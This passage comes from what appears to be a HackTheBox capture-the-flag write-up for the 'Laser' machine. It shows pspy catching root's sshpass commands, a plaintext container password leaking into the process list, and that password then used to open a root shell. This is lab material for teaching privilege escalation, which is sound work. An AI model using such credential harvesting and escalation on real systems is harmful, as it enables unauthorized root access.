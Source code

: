 ```

73 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Last login: Tue Aug  4 07:01:35 2020 from 10.10.14.9
solr@laser:~$ 

```

## Shell as root

### Enumeration

I didn’t find much of interest looking around the box, and eventually I uploaded [pspy](https://github.com/DominicBreuker/pspy). There’s a bunch of stuff running regularly. Immediately I noticed a bunch of activity using `sshpass`. This is a utility that I use all the time that allows you to give a password on the command line for `ssh` and `scp`, thus making them scriptable. This is generally consider insecure and thus bad practice. I do it all the time for HTB machines to both show the password in the post and have a copy-able one line connection when I come back way later.

Most of the time, the box is SCPing files into the container at 172.18.0.2. There is one group of commands that involves execution of a script:

```

2020/09/13 11:27:01 CMD: UID=0    PID=54532  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz scp /root/clear.sh root@172.18.0.2:/tmp/clear.sh
2020/09/13 11:27:01 CMD: UID=0    PID=54552  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 /tmp/clear.sh                                                                                 
2020/09/13 11:27:01 CMD: UID=0    PID=54571  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 rm /tmp/clear.sh

```

For some reason, the password is masked most of the time and replaced with all `z`. But if I let it run for a while, once in a while it isn’t masked:

```

2020/09/13 11:24:45 CMD: UID=0    PID=52688  | sshpass -p c413d115b3d87664499624e7826d8c5a scp /opt/updates/files/apiv2-feed root@172.18.0.2:/root/feeds/

```

I can verify that this password does work to get a root shell in the container:

```

solr@laser:~$ sshpass -p c413d115b3d87664499624e7826d8c5a ssh root@172.18.0.2
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Sep 13 16:09:52 2020 from 172.18.0.1
root@20e3289bc183:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
20e3289bc183

```
